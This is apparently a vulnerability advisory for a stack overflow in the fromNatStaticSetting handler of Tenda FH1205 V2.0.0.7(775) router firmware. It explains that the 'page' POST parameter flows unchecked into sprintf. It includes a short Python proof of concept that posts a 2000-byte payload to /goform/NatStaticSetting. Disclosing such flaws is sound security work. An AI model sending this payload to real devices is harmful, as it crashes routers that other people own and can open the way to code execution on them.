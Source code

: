 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability in the `fromNatStaticSetting` function. The `v3` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v3` can trigger this security vulnerability.

![image-20240320012709165](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012709165.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/NatStaticSetting"
payload = b"a"*2000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320104914014](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320104914014.png)
